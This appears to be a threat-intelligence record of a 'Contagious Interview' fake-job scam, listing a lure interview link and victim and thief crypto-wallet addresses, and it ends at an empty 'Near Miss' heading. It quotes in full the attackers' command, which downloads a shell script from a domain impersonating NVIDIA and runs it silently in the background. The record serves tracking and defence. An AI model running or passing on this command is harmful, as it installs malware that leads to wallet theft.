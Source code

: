 # Willo

Date:: December 12th, 2024

Amount Stolen:: $64,020

Tags:: 🎙️ Contagious Interview

---

## Details - Victim 1

`curl -k -o /var/tmp/ffmpeg.sh https://api.nvidia-release.org/ffmpeg-ja.sh && chmod +x /var/tmp/ffmpeg.sh && nohup bash /var/tmp/ffmpeg.sh >/dev/null 2>&1 &`

> Please follow this link to complete the interview: 

- `https://willointerview.com/invite/halliday`


- 0xdb874f638bacc20cb2e00d2eeedff10eddc2fd1f - Victim 1
- 5fYNK7XmGDVTTXajNVFdEYtyUgHwtA8aTqsNgxh3VNih - Victim 1
- BCPKcYy6GQFVMLpdFq8iLwYjHE4GEXvwM1jCpUrg6mU4 - Theft from Victim 1, SOL
- 0x66fe228806e3ce9fd06c8dbb9698014e8dc6ae56 - Theft from Victim 1, ETH BASE
- 0x2ecf64c21bba725a0ea4389a5c63b203806c84f5 - Theft from Victim 1, BSC
- 0x2ecf64c21bba725a0ea4389a5c63b203806c84f5 - Theft from Victim 1, BSC MEXC
- 0x2014f057ee83c419fa192ea4e7da0a1cfd7acc2b - Theft from Victim 1, BSC MEXC
- 0x8a1fb46e20842692abc960aedc93e4cb204487c3 - Theft from Victim 1, BSC MEXC
- GKYdVvus5SrsyrEKv9fJJ8FgttW9X1LY8iDqpcevH4yz - Theft from Victim 1, SOL OKX
- 0x4bfc7f21807ec10e5c07941fedfa400b735c8fdb - Theft from Victim 1, BASE ChangeNOW



## Details - Victim 2

- 0xf5a46FF0d81Aef7972Cb5f28243541CFF6D6fEb3 - Victim 2
- 0x0b4eCF28692614C10Deb7d8579F4878Be3Fd2DE9 - Victim 2
- H13Z8gS2QXzYV6s7CDXHsNd3YJr9Mp5jSi9THAYAzthb - Victim 2
- CFGUeyEFusERXKxNoXz3KhKku5tBKcBRSuGHQ7o8toG3 - Victim 2
- Fu9YWHCTX5pw1furkAXoceGje7GbFiV5Cik8WmhbRX5N - Victim 2
- ynpQ7Rwa4o6DifA699ojVmMKq5J3r642KwBqMUX2LZq - Victim 2
- 7Mgi54ZagHM5oQY1ymJBMneHznsT3cy8PXJNNx7SwDe3 - Theft from Victim 2
- 0x03598ca1d28d6254aca2b734e5b8edac54bb5ac9 - Theft from Victim 2



## Details - Victim 3

- Linkedin / Kraken impersonation
- 8s625QRcb8q349p1evDsyzYJ7Npwkh9KfHY1s3XSztVF - Theft from Victim 3
- 0xbd848d23d3fce0acef833dfe43b6cb6e23d8f5c2 - Theft from Victim 3
- 0x62264db0e2cccd5f6895d5af407f395ac9334530 - Theft from Victim 3


## Details - Near Miss
